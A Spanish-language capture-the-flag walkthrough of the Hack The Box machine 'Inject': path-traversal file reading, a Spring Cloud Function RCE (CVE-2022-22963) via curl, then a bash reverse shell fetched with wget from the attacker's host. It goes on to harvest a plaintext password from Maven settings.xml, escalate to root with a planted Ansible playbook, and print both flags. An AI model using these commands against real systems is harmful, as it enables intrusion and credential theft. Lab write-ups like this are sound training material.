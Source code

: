 ```yaml
---
title: Inject HTB
date: 2023-04-03
author: naibu3
---
```


#linux #spring

## Reconocimiento

Comenzamos buscando puertos abiertos con nmap:

```java
sudo nmap -sS -p- --open --min-rate 5000 -n -Pn 10.10.11.204
```
```java
Not shown: 65223 closed ports, 310 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

Aplicamos una búsqueda en profundidad de dichos puertos:

```java
sudo nmap -sVC -p22,8080 -n -Pn 10.10.11.204
```
```java
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nos llama la atención el servicio del puerto `8080`, se trata de [[nagios]], un software de monitorización. Si tratamos de conectarnos por el navegador a `http://ip:8080`, nos encontramos una página web donde nos llama la atención una página de *uploads*, en la que sólo se admiten imágenes.

Tras probar varias cosas, descubrimos que existe una vulnerabilidad a [[LFI]] y [[directory traversal]] en el parámetro `img` de `http://ip/show-image?img=`. Utilizando [[burpsuite]] para mandar las peticiones y *url-encodear* el valor de `img`, podemos listar por ejemplo el `/etc/passwd`:

```txt
root:x:0:0:root:/root:/bin/bash
[...]
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```

Donde vemos tres usuarios potenciales: `root`, `phil` y `frank`.

Sin embargo, no hay muchos más archivos del sistema a los que podamos acceder, por lo que accedemos a `/var/www` para tratar de buscar archivos de configuración de la propia aplicación web. Vemos el directorio `WebApp`, donde encontramos un archivo `pom.xml`:

```xml
[...]
<dependency>
	<groupId>org.springframework.cloud</groupId>
	<artifactId>spring-cloud-function-web</artifactId>
	<version>3.2.2</version>
</dependency>
[...]
```

Podemos identificar una versión desactualizada de *spring cloud*, la `3.2.2`, y con una rápida búsqueda en internet encontramos el siguiente CVE: [CVE-2022-22963](https://github.com/me2nuk/CVE-2022-22963).

## Explotación

La vuln permite Ejecución remota de comandos, mediante el envío de ciertas peticiones POST:

```bash
sudo curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("COMANDO")' --data-raw 'data' -v
```

De esta forma, podemos tratar de enviar una simple *reverse shell* (ver [[Reverse shell]]) en bash:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.68/1234 0>&1
```
```bash
#Montamos un server http en python en nuestra maquina
sudo python3 -m http.server 11111
```
```bash
#Ejecutamos el siguiete comando para descargarla en el servidor
wget http://nuestra-ip:11111/shell.sh -P /var/www/
```
```bash
#Nos ponemos en escucha en nuestra maquina con netcat
nc -lvnp 1234
```
```bash
#Y la ejecutamos con
bash /var/www/shell.sh
```

Y deberíamos recibir una *bash* por [[netcat]], con la sesión del usuario `frank`. En este punto podríamos aplicar un [[Tratamiento de la tty]] para mejorar la shell. Sin embargo lo importante es ir al `/home/frank` y acceder al directorio `.m2` y listar el `settings.xml`:

```bash
bash-5.0$ whoami
frank
bash-5.0$ cd
bash-5.0$ ls -la
total 164
drwxr-xr-x 6 frank frank   4096 Apr  4 16:19 .
drwxr-xr-x 4 root  root    4096 Feb  1 18:38 ..
lrwxrwxrwx 1 root  root       9 Jan 24 13:57 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank   3786 Apr 18  2022 .bashrc
drwx------ 2 frank frank   4096 Feb  1 18:38 .cache
drwx------ 2 frank frank   4096 Apr  4 16:19 .gnupg
-rwxr-xr-x 1 frank frank 134168 Feb 16 23:02 linpeas.sh
drwxr-xr-x 3 frank frank   4096 Feb  1 18:38 .local
drwx------ 2 frank frank   4096 Feb  1 18:38 .m2
-rw-r--r-- 1 frank frank    807 Feb 25  2020 .profile
bash-5.0$ cd .m2
bash-5.0$ ls
settings.xml
bash-5.0$ cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

Entre otras cosas veremos las credenciales del usuario *phil* (`phil:DocPhillovestoInject123`).

Tras intentar conectarnos por ssh, vemos que no es posible, por lo que tratamos de *loguearnos* con `su`:

```bash
su phil
Password: DocPhillovestoInject123
bash-5.0$ whoami
phil
```

Ya podemos obtener la flag de usuario, entramos a `/home/phil/` y listamos el archivo `user.txt`:

```bash
bash-5.0$ cd
cd
bash-5.0$ ls
ls
user.txt
bash-5.0$ cat user.txt
cat user.txt
0ce94b47eb49d4c232a927f7309819b0
```

Enhorabuena! Ya tenemos la flag de usuario: `0ce94b47eb49d4c232a927f7309819b0`.

## Escalada de privilegios

Una vez dentro podemos subir la herramienta [[pspy]] para monitorizar los procesos del sistema. Nos la descargamos de *github*, y la subimos al servidor (yo la subí con un servidor http en python3). Y la ejecutamos:

```bash
chmod +x pspy64 
./pspy64
```
```pspy


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
[...]
2023/04/18 08:58:05 CMD: UID=0     PID=16823  | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
[...]
2023/03/12 03:36:01 CMD: UID=0     PID=6757   | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
[...]
```

Vemos que hay un script que ejecuta todo lo que tiene extensión `yml` y se encuentra en `/opt/automation/tasks/`. Por tanto, creamos un archivo como el siguiente:

```yaml
- hosts: localhost
  tasks:
    - name: Privilege Escalation
      ansible.builtin.shell: |
        chmod +s /bin/bash
      become: true
```

Y lo guardamos en la ruta antes mencionada. Una vez se ejecute, dará privilegios *suid* a la `bash` y podremos hacernos *root* con `bash -p`.

Ya podemos listar el contenido de `/root/root.txt` (`46160a960fef7eab6d493ff89743dc2f`). Enhorabuena! Has resuelto la máquina!

